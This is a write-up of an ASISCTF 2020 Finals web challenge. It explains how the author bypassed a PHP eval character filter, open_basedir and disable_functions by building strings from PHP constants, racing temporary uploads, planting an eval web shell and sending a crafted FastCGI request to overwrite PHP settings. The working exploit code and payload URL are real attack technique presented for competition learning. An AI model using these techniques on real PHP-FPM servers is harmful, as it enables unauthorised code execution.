


+++
title = "Abusing PHP Constants, Temporary Uploads, and FastCGI to Bypass Restrictions"
description = """
Writeup of ASISCTF 2020 Finals 'More Secure Secrets' challenge. We bypass an 'open_basedir' restriction, a character filter, and \
'disabled_functions' by abusing a race condition, stringing together defined constants, and sending a FastCGI request \
using a TCP socket. \
"""
date = 2020-12-13
[taxonomies]
tags = ["asisctf-finals2020", "web", "php", "rce"]
categories = ["ctf-writeups"]
+++

# Challenge
> Can you obtain the more [secure](https://securesecrets.asisctf.com/Y0U_CANT_GUESS_THIS_5TUPLFGSGZYWXOKHINMBDWCKAGERCQJV.php)
> secret? Even with all those filters? I don't think so :)

We also have the [configuration files](configs.zip) from the previous challenge `Less Secure Secrets`.

When we visit the given link, we see that the page prints out the source code of the current page:
```php
<html><head></head>
<body>


<?php
function no_errors_baby($ab){
    die("I don't like errors and warnings");
}
function no_race($item, $key){}
    
array_walk_recursive($_SERVER, 'no_race');
array_walk_recursive($_GET, 'no_race');
array_walk_recursive($_POST, 'no_race');
array_walk_recursive($_REQUEST, 'no_race');
set_error_handler ( "no_errors_baby" , E_ALL );

if(!isset($_GET["yummy"])){
    highlight_file(__FILE__);
} else {
    sleep(2); //Anti-race
    echo "<!--";
    phpinfo(); 
    echo "-->";
    if(preg_match('/\$|\?|`|\'|"|%|!|[0-9]|@|\(|\)|\^|&|\*|-|\+|=|<|>|\\|{|}|\/|\||true|false|null|secret/i', $_GET["yummy"]) 
        || strlen($_GET["yummy"]) > 5000)
        die("Don't try harder");
    eval($_GET["yummy"]);
}
?>
</body>
</html>
```

<!-- more --> 

# Restrictions

The interesting lines from the given `php.ini` in the config are the following:
```ini
; Whether to allow HTTP file uploads.
; http://php.net/file-uploads
file_uploads = On

; Temporary directory for HTTP uploaded files (will use system default if not
; specified).
; http://php.net/upload-tmp-dir
upload_tmp_dir = /tmp/uploads/

; open_basedir, if set, limits all file operations to the defined directory
; and below.  This directive makes most sense if used in a per-directory
; or per-virtualhost web server configuration file.
; Note: disables the realpath cache
; http://php.net/open-basedir
open_basedir = /var/www/html:/tmp/

; This directive allows you to disable certain functions.
; It receives a comma-delimited list of function names.
; http://php.net/disable-functions
disable_functions = pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,
pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,
pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,
pcntl_setpriority,pcntl_async_signals,exec,passthru,shell_exec,system,proc_open,popen,posix_mkfifo,pg_lo_import,dbmopen,
dbase_open,chgrp,chown,chmod,symlink,apache_setenv,define_syslog_variables,posix_getpwuid,posix_kill,posix_setpgid,posix_setsid,
posix_uname,proc_close,pclose,proc_nice,proc_terminate,curl_exec,curl_multi_exec,parse_ini_file,show_source,imap_open,imagecolormatch,
fopen,copy,rename,readfile,readlink,tmpfile,tempnam,touch,link,file_put_contents,file,ftp_connect,ftp_ssl_connect,mail,putenv,chdir,
ini_set,parse_ini_string

; This directive allows you to disable certain classes.
; It receives a comma-delimited list of class names.
; http://php.net/disable-classes
disable_classes = FFI
```

## Limited open_basedir

The `open_basedir` option prevents us from reading and writing files from paths outside those that are specified. 
In this case, PHP limits our file operations to files above `/var/www/html` and `/tmp`. 

## Disabled Functions and Classes

These options are self-explanatory. If we try to use any of the listed functions or classes, PHP will throw an exception.
The disabled functions prevent us from calling shell functions, writing files, and 
[bypassing restriction using LD_PRELOAD](https://github.com/TarlogicSecurity/Chankro). 


# Executing Arbitrary PHP

Although the script evaluates our input, we are extremely limited in our input:
* No string literals
* No numbers
* No function calls
* No variables
* No assignments

The first order of business is trying to find a way to execute arbitrary PHP. Notice that we can still include files if
we can construct a string: `include [some constructed string];`

If the error handler wasn't set, we could create strings by concatenating unquoted letters: `a . b`. However, PHP raises
a warning `PHP Warning:  Use of undefined constant b - assumed 'b' (this will throw an Error in a future version of PHP)` that is
caught by the set error handler and execution is stopped.

## PHP Constants

PHP has globally defined constants. Using [`get_defined_constants`](https://www.php.net/manual/en/function.get-defined-constants.php),
we can get a list of all defined constants and their values. Since we can't call this function on the remote server, I ran
it locally using the provided Docker setup. 

Now that we have [a list of constants mappings](constants.txt), we need to use them to construct a string.
Since we have both integer and string constants, we can index into a string constant using an integer constant. 
For example, since `LIBXML_NOENT => int(2)` and `LIBXML_LOADED_VERSION => string(5) "20910"`, we can execute 
`LIBXML_LOADED_VERSION[LIBXML_NOENT]` to get the character '9'.

I wrote [a script](create_mappings.py) to create a mapping between letters and numbers to a version represented by constants. 
Not all characters were present within the string constants, but a large portion could be mapped to.

We can now include arbitrary local files.

## Racing Upload Deletion

Whenever we upload a file, PHP temporarily stores it on disk. When the executing PHP script is finished, PHP deletes the
temporary file. However, if we send another request before the first one finishes, the file will still exist. 

For this method to work, we need to know the file path of the uploaded file. 
Luckily, the page runs `phpinfo()` which will print out the temporary path of the uploaded file.
The challenge attempts to prevent race conditions by sleeping for 2 seconds and corrupting `$_SERVER`, `$_GET`, `$_POST`, 
and `$_REQUEST`.

I'm unsure if this was intended, but `$_FILES` was left untouched, so `phpinfo()` will still print out the temporary 
path of the uploaded file. 
We can also sidestep the `sleep(2)` before the `phpinfo()` by sending a payload that loops forever: `A: goto A;` 
Since the timeout in `php.ini` is set to 6 seconds, we still have 2 seconds to send another request after receiving the
response from the first one.

## Including the Temporary Upload

In theory, the temporary upload should be deleted immediately after the PHP script finishes executing, but on the remote
server and in the given docker container, using the above method resulted in the file remaining on disk. 
I assume this is either due to a bug in PHP or a result of PHP exiting abnormally after exceeding the maximum execution time.

Now that we have the path of the uploaded file on disk, we can use the mapping we created earlier to construct a PHP string
and include it. This process was finicky and would take a few retries until all characters in the path could be mapped to,
so I decided to use this method to create a file with the following contents 
(using [`move_uploaded_file`](https://www.php.net/manual/en/function.move-uploaded-file.php)) at `/tmp/uploads/dicedicedice.php`:

```php
<?php
function print_errors($ab, $errString){
    echo("ERROR: " . $errString);
}
set_error_handler ( "print_errors" , E_ALL );

eval($_GET["real_eval"]);
```

Now we have a way to execute arbitrary PHP using the `real_eval` parameter:
```
http://securesecrets.asisctf.com/Y0U_CANT_GUESS_THIS_5TUPLFGSGZYWXOKHINMBDWCKAGERCQJV.php?real_eval=var_dump($GLOBALS);&yummy=include%20PHP_PREFIX%5BPHP_ZTS%5D.READLINE_LIB%5BLC_ALL%5D.PHP_SAPI%5BDNS_NS%5D.PHP_SAPI%5BDNS_A%5D.PHP_PREFIX%5BPHP_ZTS%5D.PHP_OS%5BLOCK_UN%5D.PHP_SAPI%5BDNS_A%5D.DATE_COOKIE%5BPHP_ZTS%5D.PHP_PREFIX%5BLC_ALL%5D.PHP_PREFIX%5BE_NOTICE%5D.DATE_RSS%5BLOCK_UN%5D.PHP_PREFIX%5BDNS_NS%5D.PHP_PREFIX%5BPHP_ZTS%5D.DATE_RSS%5BLOCK_UN%5D.PHP_OS%5BDNS_A%5D.PHP_PREFIX%5BINI_ALL%5D.READLINE_LIB%5BLOCK_UN%5D.DATE_RSS%5BLOCK_UN%5D.PHP_OS%5BDNS_A%5D.PHP_PREFIX%5BINI_ALL%5D.READLINE_LIB%5BLOCK_UN%5D.DATE_RSS%5BLOCK_UN%5D.PHP_OS%5BDNS_A%5D.PHP_PREFIX%5BINI_ALL%5D.READLINE_LIB%5BLOCK_UN%5D.PHP_VERSION%5BDNS_A%5D.PHP_SAPI%5BDNS_A%5D.PHP_LIBDIR%5BLOG_MAIL%5D.PHP_SAPI%5BDNS_A%5D%3B
```

# Bypassing `disable_functions` and `open_basedir`

Even though we can execute arbitrary PHP, there's not much we can do with `disable_functions` and `open_basedir` 
restrictions in place.

## Listing Files

The [`glob`](https://www.php.net/manual/en/wrappers.glob.php) protocol, which seems useless for most practical purposes,
produces a list of all files that match a given pattern. Although there was [a bug report](https://bugs.php.net/bug.php?id=73891)
in 2017 about using this protocol to read directory structures outside `open_basedir`, this still appears to work in PHP 7.3.2.

Executing the following script on the server shows the list of all uploaded files: 
```php
$it = new DirectoryIterator("glob:///tmp/uploads/*");
foreach($it as $f) {  
    echo $f->getFileName() . " <br/>";
}
```




This doesn't let us do much since we can only list files.

## Abusing FastCGI over TCP Sockets

> PHP-FPM (FastCGI Process Manager) is an alternative PHP FastCGI implementation with some additional features useful for 
> sites of any size, especially busier sites.

PHP-FPM is responsible for interfacing PHP scripts with a web server (like Apache or Nginx). It can be configured to use
UNIX sockets or TCP sockets. In this case PHP-FPM runs in a separate docker container from the web server and communicates
using a TCP socket on port 9000. 

PHP-FPM treats the `PHP_VALUE` FastCGI headers as the same as defining it within a `php.ini` file. Normally, this wouldn't 
be an issue as the attacker has no way of controlling FastCGI headers since those are set by the webserver (in this case Apache).
However, since we can execute arbitrary PHP on the server, we can just create a socket connection on port 9000 ourselves
and send a FastCGI request with a `PHP_VALUE` header that overwrites the `open_basedir` configuration value.

I wrote the following PHP script that opens a TCP socket to localhost on port 9000 and writes the raw POST body of the 
request, and echos back the response it gets:
```php
<?php

$fp = fsockopen("127.0.0.1", 9000, $errno, $errstr, 30);

if (!$fp) {
    echo "$errstr ($errno)<br />\n";
}

fwrite($fp, file_get_contents('php://input'));

while (!feof($fp)) {
    echo fgets($fp, 128);
}
fclose($fp);
```

# Putting it All Together

I used [`PHP-FastCGI-Client`](https://github.com/adoy/PHP-FastCGI-Client) to generate the raw request locally. I captured
the binary FastCGI request of running the following script:

```php
<?php
require 'vendor/autoload.php';

use Adoy\FastCGI\Client;

$client = new Client('localhost', '9000');
$content = '<?php echo 123; ?>';
echo $client->request(
	array(
		'GATEWAY_INTERFACE' => 'FastCGI/1.0',
		'REQUEST_METHOD' => 'POST',
		'SCRIPT_FILENAME' => '/tmp/uploads/dicedicedice.php',
		'SERVER_SOFTWARE' => 'php/fcgiclient',
		'REMOTE_ADDR' => '127.0.0.1',
		'REMOTE_PORT' => '9985',
		'SERVER_ADDR' => '127.0.0.1',
		'SERVER_PORT' => '80',
		'SERVER_NAME' => 'mag-tured',
		'QUERY_STRING' => 'real_eval=echo%20file_get_contents%28%27%2Fflag%27%29%3B',
		'SERVER_PROTOCOL' => 'HTTP/1.1',
		'CONTENT_TYPE' => 'application/x-www-form-urlencoded',
		'PHP_VALUE' => 'open_basedir = /',
		'CONTENT_LENGTH' => strlen($content)
	),
	$content
);
```

I URI encoded the script and stuck it into the `real_eval` parameter and included our `dicedicedice.php` script. Now, we 
just have to send the FastCGI request as the POST body, and we will get the flag back in the response:



